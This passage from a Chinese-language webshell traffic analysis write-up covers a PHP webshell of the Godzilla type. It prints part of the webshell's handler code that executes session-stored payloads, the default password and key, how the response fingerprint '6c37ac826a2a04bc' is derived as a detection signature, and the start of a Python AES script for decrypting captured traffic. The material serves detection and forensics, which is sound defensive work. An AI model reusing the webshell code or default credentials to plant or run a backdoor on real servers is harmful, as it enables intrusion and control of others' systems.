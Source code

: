 ```php
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

- 指纹`6c37ac826a2a04bc`的生成过程：

```
密码：pass				
密钥：key 				# md5：3c6e0b8a9c15224a8228b9a98ca1531d

# key的md5取前16位，即3c6e0b8a9c15224a
$key='3c6e0b8a9c15224a';   # key的md5前16位

# pass和key拼接取后16位，即6c37ac826a2a04bc
echo substr(md5($pass.$key),16);
```

#### 流量特征

- 每一个响应流量最后都带有`6c37ac826a2a04bc`。

![img](images/Webshell流量分析/202211091046532.png)


#### 流量解密

```python
# -*- coding: utf-8 -*-

import base64
import zlib
from Crypto.Cipher import AES
import binascii
from Crypto.Util.Padding import pad, unpad

BLOCK_SIZE = 32
def aes_decode(data, key):
    try:
        aes = AES.new(str.encode(key), AES.MODE_ECB)
        decrypted_text = aes.decrypt(pad(data,BLOCK_SIZE))
        decrypted_text = decrypted_text[:-(decrypted_text[-1])]
    except Exception as e:
        print(e)
```